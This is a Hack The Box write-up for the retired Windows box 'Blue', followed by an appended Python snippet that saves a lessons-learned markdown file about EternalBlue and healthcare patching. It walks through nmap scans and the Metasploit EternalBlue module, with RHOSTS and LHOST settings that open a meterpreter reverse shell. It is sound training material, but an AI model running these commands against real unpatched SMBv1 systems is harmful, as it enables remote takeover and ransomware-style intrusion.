 # 🖥️ HTB Blue Writeup

**✳️ Box:** Blue  
**✳️ OS:** Windows  
**✳️ Difficulty:** Easy  

---

## 🔍 Enumeration

```bash
nmap -A 10.10.10.40
```

**Discovered open ports:**

```bash
PORT     STATE SERVICE      VERSION  
135/tcp  open  msrpc        Microsoft Windows RPC  
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn  
445/tcp  open  microsoft-ds Windows 7 Professional 7601 Service Pack 1
```

### 🧠 Observations:
- SMB is active on ports `139` and `445`.
- Target OS appears to be vulnerable to `ms17-010` (EternalBlue).

---

## 🔧 Vulnerability Scanning

```bash
nmap --script vuln -p 445 10.10.10.40
```

```bash
smb-vuln-ms17-010:  
  VULNERABLE:  
  Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
  State: VULNERABLE
```

---

## ⚔️ Exploitation

```bash
msfconsole
```

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set LHOST 10.10.14.XX   # ← your tun0 IP
run
```

### ✅ Result:
You should receive a meterpreter shell confirming remote access.

---

## 🏁 Flags

- `User.txt`: ✅  
- `Root.txt`: ✅  

---

## 📸 Screenshots

| 🔎 Nmap Scan        | 🎯 Vulnerability Detected     | 💥 Exploitation via Metasploit |
|--------------------|-------------------------------|-------------------------------|
| ![nmap](../screenshots/blue-nmap.png) | ![vuln](../screenshots/blue-smb-vuln.png) | ![exploit](../screenshots/blue-exploit-msf.png) |

---

## 💡 Takeaways

- EternalBlue is still relevant in vulnerable legacy systems.
- Enumeration is key — SMB exposure quickly led to exploit confirmation.
- Exploiting known vulnerabilities can yield immediate results on retired HTB machines, but don’t skip recon!

---

## ⌨️ Commands Summary (cloudpunchr@kali)

```bash
cd ~/Pentest_Vault/HTB_Blue
nmap -A 10.10.10.40
nmap --script vuln -p 445 10.10.10.40
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set LHOST 10.10.14.XX
run
```
from pathlib import Path

# Create a Markdown file with just the Real-World Relevance and Lessons Learned sections
summary_md = """\
## 💡 Real-World Relevance: Why This Exploit Matters

*HTB Blue* may be an entry-level box, but it mirrors one of the most impactful real-world exploits—**EternalBlue (MS17-010)**—used in the **WannaCry** ransomware attacks that crippled hospitals worldwide in 2017.

As a former **Clinical Application Specialist** in a major healthcare system, I’ve seen how legacy infrastructure and delayed patching can leave critical environments vulnerable. This write-up reflects not just the technical exploitation of an SMBv1 flaw, but the broader risks tied to operational downtime and poor system hygiene in sectors where reliability is non-negotiable.

By including this in my portfolio, I’m showcasing how I connect offensive security skills to real-world impact—especially in industries where cybersecurity isn’t just about data, but about continuity of care.

---

## ✅ Lessons Learned

- Even "easy" vulnerabilities can have **devastating real-world consequences** when unpatched.
- **Legacy protocols** like SMBv1 remain a soft target in outdated environments.
- **Healthcare systems**, often reliant on legacy applications, are prime targets for ransomware.
- **Patch management and segmentation** are vital to protect critical infrastructure.
- EternalBlue highlights the importance of **blue and red team collaboration**—knowing the exploit path helps inform the defense.
- Practicing with real-world exploits sharpens both offensive and risk assessment skills.
"""

# Save it to a markdown file
summary_path = Path("/mnt/data/HTB_Blue_Relevance_Lessons.md")
summary_path.write_text(summary_md)

summary_path.name  # Output file name for user reference
